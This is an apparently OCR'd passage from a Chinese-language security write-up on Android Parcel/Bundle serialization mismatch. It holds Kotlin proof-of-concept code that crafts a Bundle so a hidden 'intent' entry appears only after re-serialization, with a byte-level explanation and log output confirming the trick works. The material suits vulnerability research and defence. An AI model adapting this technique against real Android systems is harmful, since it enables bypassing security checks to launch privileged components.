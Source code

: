 ```
p.writeString("com.evilpan.poc.Vulnerable")
p.writeInt(666) // mData

// A1
p.writeString("\u000d\u0000\u0008") // 0d00 0000 0800
p.writeInt(Type.VAL_BYTEARRAY.value)
p.writeInt(28)
p.writeString("intent")              // 4 + padSize((6 + 1) * 2) = 4+16 = 20
p.writeInt(Type.VAL_INTEGER.value)   // = 4
p.writeInt(0x1337)                   // = 4

// A2
p.writeString("BBB")
p.writeInt(Type.VAL_NULL.value)

// Back-patch length && reset position

val A = unparcel(p)
Log.i("A = " + inspect(A))
Log.i("A.containsKey: " + A.containsKey("intent"))

val B = unparcel(parcel(A))
Log.i("B = " + inspect(B))
Log.i("B.containsKey: " + B.containsKey("intent"))
```  
  
在上述 POC 中，我们明面上构造了一个含有 3 个元素的 Bundle，分别是:  
- • A0: Parcelable 类型，元素为我们带有漏洞的 Parcelable；  
  
- • A1: ByteArray 类型，长度为 28 字节，ByteArray 的内容为隐藏的 Intent 元素，即 20+4+4；  
  
- • A2: NULL 类型；  
  
其中关键的是 A1 的 key，在触发漏洞后，会被解析为第二个元素的元素类型和长度，即解析出来的内容为:  
- • 0d000000: 解析为元素类型，等于 VAL_BYTEARRAY(13)；  
  
- • 08000000: 解析为 ByteArray 长度，即 8 字节；注意这里额外的 0 是字符串写入时候 pad 出来的。  
  
之所以是 8 字节，是为了把后面的长度字段吞掉，使得解析下一个元素可以直接到我们隐藏的 intent 中。  
  
第三个元素 A2 只是用于占位，在第一次序列化时候有用，第二次时直接被我们隐藏的 intent 替代了。上述代码的运行结果如下:  
```
[INFO]: A = Bundle(item = 3) length: 144
[INFO]:   => 41000000 = VAL_PARCELABLE:com.evilpan.poc.Vulnerable{mData=666}
[INFO]:   => 0d00000008000000 = VAL_BYTEARRAY:0600000069006e00740065006e007400000000000100000037130000
[INFO]:   => 4200420042000000 = VAL_NULL:null
[INFO]: A.containsKey: false
[INFO]: === writeToParcel ===
[INFO]: B = Bundle(item = 3) length: 148
[INFO]:   => 41000000 = VAL_PARCELABLE:com.evilpan.poc.Vulnerable{mData=666}
[INFO]:   => 03000000 = VAL_BYTEARRAY:0d0000001c000000
[INFO]:   => 69006e00740065006e00740000000000 = VAL_INTEGER:1337
[INFO]: B.containsKey: true
```  
  